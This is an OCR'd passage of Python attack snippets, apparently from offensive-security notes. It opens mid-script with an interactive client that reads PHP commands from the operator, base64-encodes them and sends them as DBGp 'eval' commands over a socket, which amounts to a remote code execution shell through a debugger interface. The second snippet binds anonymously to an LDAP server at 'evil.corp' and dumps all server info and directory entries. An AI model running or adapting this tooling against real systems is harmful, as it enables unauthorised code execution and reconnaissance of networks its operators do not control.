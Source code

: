 ```python
      resp = f"{xml_root[0].text} {xml_root[0].attrib}"
    elif 'response' in xml_root.tag:
      # prepare response response
      resp = f"{xml_root[0].text} {xml_root[0].attrib}"
      resp_decode_raw = xml_root[0].text
      resp_decode_b_b64 = resp_decode_raw.encode('ascii')
      resp_decode_b = base64.b64decode(resp_decode_b_b64)
      resp_decode = resp_decode_b.decode('ascii')
    else:
      # prepare default response
      resp = f"UNPARSED!! {xml_data}"
    
    print(f"[<] RESP: {resp}")
    if resp_decode != False:
      print(f"[+] RESPONSE OUTPUT: {resp_decode}")

    print(" ")
    # print input and for command eval
    data = input('[*] PHP commands only >> ')
    data_b = data.encode('ascii')
    data_b_b64 = base64.b64encode(data_b)
    data_b64 = data_b_b64.decode('ascii')
    command = f"eval -i 1 -- {data_b64}\x00"
    print(f"[>] SENT: {command}")
    command_b = command.encode('ascii')
    conn.sendall(command_b)
  except KeyboardInterrupt:
    sys.exit()
  except Exception as e:
    print("[-] ERROR: ", e)
    sys.exit()
```

### Simpe LDAP requests

```python
import ldap3

target = 'evil.corp'

server = ldap3.Server(target, get_info = ldap3.ALL, port=636, use_ssl = True)
connection = ldap3.Connection(server)
connection.bind()

print("==============> SERVER.INFO")
print(server.info)

print(" ")

connection.search(search_base='DC=EVIL,DC=CORP', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
print("==============> CONNECTION.ENTRIES")
print(connection.entries)
```
